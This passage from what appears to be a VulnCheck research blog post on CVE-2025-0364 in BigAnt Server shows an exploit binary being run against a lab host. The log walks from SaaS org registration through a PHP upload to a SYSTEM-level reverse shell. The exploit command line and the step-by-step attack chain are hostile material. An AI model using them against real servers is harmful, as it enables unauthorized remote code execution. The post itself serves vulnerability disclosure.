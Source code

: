 host=10.0.0.104 port=8000 vulnerable=yes\\ntime=2025-01-09T14:49:56.301-07:00 level=STATUS msg="CAPTCHA flags not set, retrieving captcha-hash"\\ntime=2025-01-09T14:49:56.317-07:00 level=STATUS msg="Open the following page in a browser and solve the CAPTCHA: http://10.0.0.104:8000/index.php/Home/Public/verify"\\ntime=2025-01-09T14:49:56.317-07:00 level=STATUS msg="Solve CAPTCHA and pass the following flags to this exploit: \`-captcha-hash 652def5853ff0030a259b30af8e7facb\_6e58b283a2a66e4db833ac2547019a30 -captcha-session 4fbsn0i6bdiuu6vuik99gbhndb -captcha \`"\\n\`\`\`\\n\\nSolve the CAPTCHA and fire away to get a good ol' \`NT AUTHORITY\\SYSTEM\` reverse shell:\\n\\n\`\`\`sh\\npoptart@grimm:~/src/initial-access/feed/cve-2025-0364 $ ./build/cve-2025-0364\_linux-amd64 -rhost 10.0.0.104 -rport 8000 -lhost 10.0.1.10 -lport 1337 -v -c -e -captcha-hash 652def5853ff0030a259b30af8e7facb\_6e58b283a2a66e4db833ac2547019a30 -captcha-session 4fbsn0i6bdiuu6vuik99gbhndb -captcha VKZ6\\ntime=2025-01-09T14:50:18.502-07:00 level=STATUS msg="Certificate not provided. Generating a TLS Certificate"\\ntime=2025-01-09T14:50:18.575-07:00 level=STATUS msg="Starting TLS listener on 10.0.1.10:1337"\\ntime=2025-01-09T14:50:18.575-07:00 level=STATUS msg="Starting target" index=0 host=10.0.0.104 port=8000 ssl=false "ssl auto"=false\\ntime=2025-01-09T14:50:18.575-07:00 level=STATUS msg="Validating Bigantsoft Bigant Server target" host=10.0.0.104 port=8000\\ntime=2025-01-09T14:50:18.620-07:00 level=SUCCESS msg="Target verification succeeded!" host=10.0.0.104 port=8000 verified=true\\ntime=2025-01-09T14:50:18.620-07:00 level=STATUS msg="Running a version check on the remote target" host=10.0.0.104 port=8000\\ntime=2025-01-09T14:50:18.650-07:00 level=VERSION msg="The reported version is 5.6.06" host=10.0.0.104 port=8000 version=5.6.06\\ntime=2025-01-09T14:50:18.650-07:00 level=SUCCESS msg="The target appears to be a vulnerable version!" host=10.0.0.104 port=8000 vulnerable=yes\\ntime=2025-01-09T14:50:18.650-07:00 level=STATUS msg="Password that will be used for authentication: kyLZiAddnH"\\ntime=2025-01-09T14:50:18.650-07:00 level=STATUS msg="Registering SaaS org: LBJCUE (mpzo@fldlmarv.com) with password: kyLZiAddnH"\\ntime=2025-01-09T14:50:18.675-07:00 level=STATUS msg="Getting new PHP session and pinning the SaaS org to the session"\\ntime=2025-01-09T14:50:18.747-07:00 level=STATUS msg="Retrieving org SSID from demo page with session v1cir7mh9v4dfv4ik54mhq6so0"\\ntime=2025-01-09T14:50:18.764-07:00 level=STATUS msg="Retrieved SSID for LBJCUE: 387360F0-EECD-622B-5B90-C37F2BBD45B3"\\ntime=2025-01-09T14:50:18.765-07:00 level=STATUS msg="Activating SaaS organization"\\ntime=2025-01-09T14:50:22.627-07:00 level=STATUS msg="Authenticating to the addin SaaS admin"\\ntime=2025-01-09T14:50:22.673-07:00 level=STATUS msg="Visiting SaaS addin cloud drive page"\\ntime=2025-01-09T14:50:22.762-07:00 level=STATUS msg="Got cloud drive root path UUID: 99C8911A-DCB3-E5F2-4298-1E3567AA0DAD"\\ntime=2025-01-09T14:50:22.762-07:00 level=STATUS msg="Attempting to upload \`JQsaYCKEOu.php\` to cloud drive addin"\\ntime=2025-01-09T14:50:22.819-07:00 level=STATUS msg="Attempting to trigger final payload, timeout is expected after callback"\\ntime=2025-01-09T14:50:22.819-07:00 level=STATUS msg="Requesting final payload at: http://10.0.0.104:8000/data/387360F0-EECD-622B-5B90-C37F2BBD45B3/pan/99C8911A-DCB3-E5F2-4298-1E3567AA0DAD/2025-01-09/JQsaYCKEOu.php"\\ntime=2025-01-09T14:50:22.821-07:00 level=SUCCESS msg="Caught new shell from 10.0.0.104:51690"\\ntime=2025-01-09T14:50:22.821-07:00 level=STATUS msg="Active shell from 10.0.0.104:51690"\\nMicrosoft Windows \[Version 10.0.17763.107\]\\n(c) 2018 Microsoft Corporation. All rights reserved.\\n\\nC:\\Program Files (x86)\\BigAntSoft\\IM Console\\im\_webserver\\htdocs\\data\\387360F0-EECD-622B-5B90-C37F2BBD45B3\\pan\\99C8911A-DCB3-E5F2-4298-1E3567AA0DAD\\2025-01-09>whoami\\nwhoami\\nnt authority\\system\\n\\nC:\\Program Files (x86)\\BigAntSoft\\IM Console\\im\_webserver\\htdocs\\data\\387360F0-EECD-622B-5B90-C37F2BBD45B3\\pan\\99C8911A-DCB3-E5F2-4298-1E3567AA0DAD\\2025-01-09>^C\\n\`\`\`\\n\\nSometimes an incorrectly categorized CVSS vector is all it takes to motivate you to find something interesting.\\n\\n## About VulnCheck\\n\\nThe VulnCheck Initial Access team is always on the lookout for new exploitation in the wild. For more research like this, see our blogs, \[Four-Faith Industrial Router CVE-2024-12856 Exploited in the Wild\](https://vulncheck.com/blog/four-faith-cve-2024-12856), \[PaperCut Exploitation\](https://vulncheck.com/blog/papercut-rce), \[ProjectSend CVE-2024-11680 Exploited in the Wild\](https://vulncheck.com/blog/projectsend-exploited-itw), \[Fileless Remote Code Execution on Juniper Firewalls\\n\](https://vulncheck.com/blog/juniper-cve-2023-36845), and \[Does Confluence Dream of Shells?\](https://vulncheck.com/blog/confluence-dreams-of-shells)\\n\\nSign up to our website today to get free access to our \[VulnCheck KEV\](https://vulncheck.com/kev) and request a trial of our \[Initial Access Intelligence\](https://vulncheck.com/product/initial-access-intelligence) and \[Exploit & Vulnerability Intelligence\](https://vulncheck.com/product/exploit-intelligence) products.\\n

#### [Source](https://vulncheck.com/blog/bigant-cve-2025-0364)

<br/>
---
